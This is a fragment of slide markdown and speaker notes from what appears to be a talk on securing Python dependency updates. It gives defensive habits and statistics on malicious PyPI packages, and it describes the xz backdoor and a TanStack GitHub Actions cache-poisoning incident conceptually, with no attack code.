3. **Automate** updates and isolate installs
4. **Cooldown** new releases
5. **Use AI** because attackers are using it as well

<!--
TRANSITION: "If you remember nothing else — five things." Read it fast, it's a checklist.
Recap — five habits, none exotic: fewer deps, pin everything, automate+isolate,
cooldown (with overrides), use AI. A config file and a habit.
-->

---


# Questions?

slides → `talks.pecar.me`

blog → `blog.pecar.me/how-to-safely-update-your-dependencies`

<!--
TRANSITION: land "Don't trust. Verify." — then STOP. Let it sit before Q&A.
Close. Point to the blog for cooldown config. Likely Qs:
- "Does lockfile pinning alone protect me?" No — you still pull the bad version when
  you update, unless you also cooldown.
- "Is uv the only option?" Renovate minimumReleaseAge / Dependabot cooldown exist too.
- "Doesn't Trusted Publishing solve this?" Only the stolen-token class — see TanStack.
-->

---

<!-- _paginate: false -->



<!--
BONUS slide — not part of the main talk. Pull up if asked "how common is this really?"
The everyday baseline: ~129 malicious PyPI packages reported EVERY MONTH over the last
two years; 11,332 catalogued all-time in the OSV / OpenSSF malicious-packages feed.
Honesty note: PyPI does NOT publish a clean count of QUARANTINED projects over time, so
this OSV/OpenSSF feed is the best public proxy. Publish dates contain big historical
BACKFILLS (Feb 2023 ≈ 6,170; Jun 2024 ≈ 1,715), so the chart starts Jul 2024 where
dating is organic. aiocpa (Nov 2024) was the first PyPI "quarantine" use.
Are this talk's incidents in the dataset? Yes — litellm, telnyx, durabletask, lightning,
num2words, fabrice, aiocpa, soopsocks, elementary-data, deepseeek/deepseekai all have
MAL- records. Trivy does NOT (it's a Go tool). ultralytics is a GHSA, not MAL-.
Chart: research/charts/plot_osv_volume.py
-->

---

<!-- _paginate: false -->

# Bonus: the one we almost shipped — `xz`

## CVE-2024-3094 · CVSS 10.0

A backdoor in a compression library `sshd` loads → pre-auth RCE as **root**.

Caught only because SSH logins felt **~0.5s slower** (`0.8s` vs `0.3s`) — Andres Freund got curious.

<!--
BONUS slide — the landmark NON-Python case. Pull up if asked "what's the scariest one?"
March 2024. xz-utils / liblzma 5.6.0 & 5.6.1 carried a backdoor. On Debian/Fedora, sshd
links libsystemd → liblzma, so the backdoor landed inside the SSH daemon; with the right
Ed448 private key, pre-auth RCE as root. CVSS 10.0.
How it hid: payload in BINARY "test" files in the release tarball (NOT the git repo),
assembled at build by a tampered build-to-host.m4. Source review wouldn't show it.
The catch: Andres Freund (Microsoft, Postgres) noticed sshd burning CPU and logins
taking ~0.8s vs ~0.3s, got curious, and unravelled a ~3-year operation — the "Jia Tan"
persona spent years earning maintainer trust, backed by sock-puppet pressure.
Disclosed Mar 29 2024 on oss-security. Reached Fedora Rawhide/40-beta, Debian sid,
openSUSE Tumbleweed, Kali — but NOT any stable release. Get it right: 0.8s vs 0.3s;
activation key is Ed448 (not RSA).
Sources:
- https://www.openwall.com/lists/oss-security/2024/03/29/4
- https://research.swtch.com/xz-timeline
-->


---

# May 2026: `TanStack` — poison the *build*, not the token

1. Fork opens a PR → a `pull_request_target` workflow runs the fork's code
2. It writes a **poisoned entry into the shared Actions cache**
3. The real release workflow restores it — and publishes the malware for you

*84 versions, 42 packages — and no token was ever stolen.*

<!--
TRANSITION (callback + the turn): "PEP 829 closes one door. But remember TanStack from the montage — no token stolen? That's a door no token, and no Trusted Publishing, can shut."
The most important modern lesson. The attacker never stole a token. They abused
`pull_request_target` (runs fork code with the BASE repo's privileges) to poison the
shared GitHub Actions cache. Crucial: actions/cache's post-job SAVE isn't gated by
`permissions:`, so `contents: read` didn't stop it. When the trusted release pipeline
ran, it restored the poisoned cache and the malware published directly, minting its
own OIDC token.
Ecosystem-agnostic: PyPI packages are also built/published from GitHub Actions. Same
pull_request_target foot-gun, same shared cache (cf. ultralytics, Dec 2024).
Sources:
- https://tanstack.com/blog/npm-supply-chain-compromise-postmortem
- https://safedep.io/tanstack-github-actions-cache-poisoning/
-->


---



<!--
TRANSITION: "— and the targets keep getting bigger. That litellm from a minute ago? Half a billion downloads a month." Close: "Frequent, constant, high-stakes."
The "are they getting more impactful?" answer. Attackers moved from low-reach
typosquats (fabrice ~37k installs, soopsocks ~2.6k, deepseek ~200 — all now removed)
to hijacking TRUSTED, high-reach packages. litellm alone does ~543 MILLION
downloads/month; pytorch-lightning ~11M, ultralytics ~10M, num2words ~7M.
HONEST caveat: these are CURRENT monthly downloads (pypistats.org) as a proxy for
reach — we can't get the malicious *version's* downloads (PyPI removes them in
minutes; litellm was live ~40 min). So it's "how big was the package that fell," not
"how many were infected."
Chart: research/charts/plot_blast_radius.py
-->
